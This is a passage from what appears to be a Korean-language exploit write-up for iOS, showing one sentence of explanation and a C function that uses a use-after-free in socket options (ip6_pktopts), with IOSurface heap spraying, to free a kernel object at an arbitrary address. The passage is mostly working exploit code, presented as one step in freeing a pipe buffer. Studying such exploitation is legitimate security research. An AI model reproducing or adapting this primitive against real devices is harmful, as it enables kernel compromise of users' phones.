 ```c
    // ...
```

이제 파이프 버퍼를 해제해보자.

위에서 언급했던 프리미티브를 이용하면 Pipe 버퍼를 손쉽게 해제할 수 있다.

```c
// third primitive: free a kalloced object at an arbitrary address
int free_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
    }
    
    // create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
    
    bool found = false;
    int found_at = -1;
    
    for (int i = 0; i < 20; i++) { // iterate through the sockets to find if we overwrote one
        spray_IOSurface((void *)fake_opts, sizeof(struct ip6_pktopts));
        
        for (int j = 0; j < 128; j++) {
            int minmtu = -1;
            get_minmtu(sockets[j], &minmtu);
            if (minmtu == 0x41424344) { // found it!
                found_at = j; // save its index
                found = true;
                break;
            }
        }
        if (found) break;
    }
    
    free(fake_opts);
    
    if (!found) {
        printf("[-] failed to setup freeing primitive\n");
        return -1;
    }
    
    for (int i = 0; i < 128; i++) {
        if (i != found_at) {
            close(sockets[i]);
        }
    }
    struct in6_pktinfo *buf = malloc(sizeof(struct in6_pktinfo));
    memset(buf, 0, sizeof(struct in6_pktinfo));
    
    int ret = set_pktinfo(sockets[found_at], buf);
    free(buf);
    return ret;
}
```
